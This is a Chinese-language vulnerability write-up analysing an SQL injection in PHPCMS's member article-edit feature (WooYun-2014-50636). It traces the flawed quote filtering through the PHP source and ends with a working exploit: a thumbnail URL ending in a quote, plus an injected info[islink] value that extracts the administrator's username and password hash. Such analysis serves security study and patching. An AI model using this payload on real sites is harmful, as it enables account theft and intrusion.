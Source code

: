 ## WooYun-2014-50636：PHPCMS全版本通殺SQL注入漏洞

### 漏洞分析
首先看下面的程式碼
/phpcms/modules/member/content.php 202行編輯函數

```php
public function edit() {

    $_username = $this->memberinfo['username'];

    if(isset($_POST['dosubmit'])) {

        $catid = $_POST['info']['catid'] = intval($_POST['info']['catid']);

        $siteids = getcache('category_content', 'commons');

        $siteid = $siteids[$catid];

        $CATEGORYS = getcache('category_content_'.$siteid, 'commons');

        $category = $CATEGORYS[$catid];

        if($category['type']==0) {//審核狀態時，點編輯再提交，進入如果分支

            $id = intval($_POST['id']);

            $catid = $_POST['info']['catid'] = intval($_POST['info']['catid']);

            $this->content_db = pc_base::load_model('content_model');

            $modelid = $category['modelid'];

            $this->content_db->set_model($modelid);

            //判斷會員組投稿是否需要審核

            $memberinfo = $this->memberinfo;

            $grouplist = getcache('grouplist');

            $setting = string2array($category['setting']);

            if(!$grouplist[$memberinfo['groupid']]['allowpostverify'] || $setting['workflowid']) {

                $_POST['info']['status'] = 1;

            }

            $info = array();

            foreach($_POST['info'] as $_k=>$_v) {

                if(in_array($_k, $fields)) $_POST['info'][$_k] = new_html_special_chars(trim_script($_v));

            }

            $_POST['linkurl'] = str_replace(array('"','(',')',",",' '),'',new_html_special_chars($_POST['linkurl']));

            //exit(print_r($_POST['info']));

            $this->content_db->edit_content($_POST['info'],$id);

            $forward = $_POST['forward'];

            showmessage(L('update_success'),$forward);

        }

    } else {

        //...

}
```
```sh
229行
```

```php
$this->content_db->edit_content($_POST['info'],$id);
```


其中$ _POST ['info']參數是一個陣列，其內容是在線投稿的各項內容，如圖所示

![1](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-1.jpg)

跟上edit_content函數
/phpcms/model/content_model.class.php第234行開始

```php
public function edit_content($data,$id) {

        $model_tablename = $this->model_tablename;

        //前台權限判斷

        if(!defined('IN_ADMIN')) {

            $_username = param::get_cookie('_username');

            $us = $this->get_one(array('id'=>$id,'username'=>$_username));

            if(!$us) return false;

        }

        $this->search_db = pc_base::load_model('search_model');

        require_once CACHE_MODEL_PATH.'content_input.class.php';

        require_once CACHE_MODEL_PATH.'content_update.class.php';

        $content_input = new content_input($this->modelid);

        $inputinfo = $content_input->get($data);//跟進此函數

        // /caches/caches_model/caches_data/content_input.class.php get函數

        $systeminfo = $inputinfo['system'];
```
第248行，我們可以看到$ _POST ['info']陣列進入了get函數，繼續跟進
<br />
/caches/caches_model/caches_data/content_input.class.php第55行開始

```php
if($pattern && $length && !preg_match($pattern, $value) && !$isimport) showmessage($errortips);

$MODEL = getcache('model', 'commons');

$this->db->table_name = $this->fields[$field]['issystem'] ? $this->db_pre.$MODEL[$this->modelid]['tablename'] : $this->db_pre.$MODEL[$this->modelid]['tablename'].'_data';

if($this->fields[$field]['isunique'] && $this->db->get_one(array($field=>$value),$field) && ROUTE_A != 'edit') showmessage($name.L('the_value_must_not_repeat'));

$func = $this->fields[$field]['formtype'];

if(method_exists($this, $func)) $value = $this->$func($field, $value);//這裡是關鍵，後面慢慢說明

if($this->fields[$field]['issystem']) {

    $info['system'][$field] = $value;

} else {

    $info['model'][$field] = $value;

}
```

我們重點關注這裡是怎麼處理的

```php
if(method_exists($this, $func)) $value = $this->$func($field, $value);
```
為了方便看清楚程式在這裡究竟是怎樣處理的，我們在這行程式碼前面加入以下調試程式碼，看看都經過了哪些函數的處理...

```php
if($pattern && $length && !preg_match($pattern, $value) && !$isimport) showmessage($errortips);

$MODEL = getcache('model', 'commons');

$this->db->table_name = $this->fields[$field]['issystem'] ? $this->db_pre.$MODEL[$this->modelid]['tablename'] : $this->db_pre.$MODEL[$this->modelid]['tablename'].'_data';

if($this->fields[$field]['isunique'] && $this->db->get_one(array($field=>$value),$field) && ROUTE_A != 'edit') showmessage($name.L('the_value_must_not_repeat'));

$func = $this->fields[$field]['formtype'];

echo "<br>Function :-->".$func."<--<br>";//這是添加的調試程式碼

if(method_exists($this, $func)) $value = $this->$func($field, $value);//這裡是關鍵，後面慢慢說明

if($this->fields[$field]['issystem']) {

    $info['system'][$field] = $value;

} else {

    $info['model'][$field] = $value;

}
```

編輯投稿內容，提交

![2](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-2.jpg)


提交的內容經過瞭如下幾個函數：`catid`、`title`、`keyword`、`copyform`、`textarea`、`editor`、`image`、`islink`、`box`
經過分析後，重點關注圖像函數，繼續跟上
<br />
/caches/caches_model/caches_data/content_input.class.php第102行圖像函數


```php
function image($field, $value) {

    $value = str_replace(array("'",'"','(',')'),'',$value);

    return trim($value);

}
```
過濾了"'"，"（"，"）"，當開啟了GPC的時候，單引號會被轉義' - > \'
圖像函數過濾了單引號，假設提交的資料恰巧經過了圖像函數，則單引號被過濾了，留下"\"，那麼這個"\"將會吃掉一個單引號，造成注入


### 3. 漏洞Poc

條件：後台開啟投稿，並要求審核<br />
**Step1在會員中心隨便投一篇文章，提交**

**Step2點擊編輯，如下**
![3](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-3.jpg)
<br />
**Step3在縮略圖欄填入http：//**.**.**.**/sql.jpg'，如圖**
![7](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-7.jpg)

提交後，報錯
<br />
![4](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-4.jpg)

### 漏洞最終利用Exp

在縮略圖欄填入：
<pre>http://**.**.**.**/sql.jpg'</pre>

點擊提交，採用Tamper data抓包修改，將info[islink]修改為

```SQL
,title=(select concat(username,password) from v9_admin where userid=1) -- felixk3y
```

點擊確定，再點編輯 即可讀取管理員帳號 密碼，如圖

![5](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-5.jpg)
<br />
### 漏洞證明
<br />

![6](https://raw.githubusercontent.com/dyeat/PDF/master/%E8%AB%96PHP%E5%B8%B8%E8%A6%8B%E7%9A%84%E6%BC%8F%E6%B4%9E/images/3/3.8/3.8-6.jpg)